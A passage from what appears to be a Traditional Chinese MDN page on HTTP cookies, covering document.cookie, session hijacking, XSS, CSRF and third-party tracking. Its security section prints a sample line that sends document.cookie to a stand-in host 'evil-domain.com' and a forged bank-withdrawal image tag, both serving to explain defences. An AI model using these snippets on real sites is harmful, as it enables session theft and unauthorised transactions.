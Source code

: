 新的 cookies 亦可經由 JavaScript 的 {{domxref("Document.cookie")}} 屬性生成，且若沒有立 `HttpOnly` 旗幟，已存在的 cookies 可以透過 JavaScript 取得。

```js
document.cookie = "yummy_cookie=choco";
document.cookie = "tasty_cookie=strawberry";
console.log(document.cookie);
// logs "yummy_cookie=choco; tasty_cookie=strawberry"
```

請注意以下[安全性](/zh-TW/docs/Web/HTTP/Cookies#Security)章節的資安問題。JavaScript 可取得的 Cookies 即有被 XSS 攻擊竊取的風險。

## 安全性

> **備註：** 機密或敏感的資訊永遠不應該以 HTTP Cookies 的方式儲存或傳送，因為整個機制的本質是不安全的。

### Session hijacking 以及 XSS

Cookies 常用於網頁應用程式中，識別使用者與其 authenticated session，因此竊取 cookie 可能造成使用者的 authenticated session 被劫持。一般偷取 cookies 的作法包括社交工程（Social Engineering），或利用應用程式中的 {{Glossary("XSS")}} 漏洞。

```js
new Image().src =
  "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

Cookie 中的 `HttpOnly` 屬性，能藉由防止透過 JavaScript 取得 cookie 內容，來減少此類型的攻擊。

### Cross-site request forgery (CSRF)

[維基百科](https://en.wikipedia.org/wiki/HTTP_cookie#Cross-site_request_forgery)為 {{Glossary("CSRF")}} 舉了一個好例子。假設在一個未經過濾的對話或論壇中，某人插入了一個並非真實圖片，而是對你銀行伺服器請求領錢的 image：

```html
<img
  src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory" />
```

現在如果你的銀行帳戶仍在登入狀態中，你的 cookies 仍然有效，並且沒有其他的驗證方式，當你載入包含此圖片的 HTML 同時，你的錢即會被轉出。以下是一些避免此情況發生的技術：

- Input filtering 和 {{Glossary("XSS")}} 一樣是重要的。
- 做任何敏感的動作前，都應該要求使用者確認。
- 用於敏感動作的 Cookies 都只應該有短時間的生命週期。
- 更多防範的技巧，參見 [OWASP CSRF prevention cheat sheet](<https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet>)。

## 追蹤及隱私

### 第三方 cookies

Cookies 會帶有他們所屬的網域名。若此網域和你所在的頁面網域相同，cookies 即為*第一方（first-party）cookie*，不同則為*第三方（third-party）cookie*。第一方 cookies 只被送到設定他們的伺服器，但一個網頁可能含有存在其他網域伺服器的圖片或組件（像橫幅廣告）。透過這些第三方組件傳送的 cookies 便是第三方 cookies，經常被用於廣告和網頁上的追蹤。參見 [Google 常用的 cookies 種類](https://www.google.com/policies/technologies/types/)。大部分的瀏覽器預設允許第三方 cookies，但也有些可以阻擋他們的 add-on（例如 [EFF](https://www.eff.org/) 的 [Privacy Badger](https://addons.mozilla.org/zh-TW/firefox/addon/privacy-badger-firefox/)）。
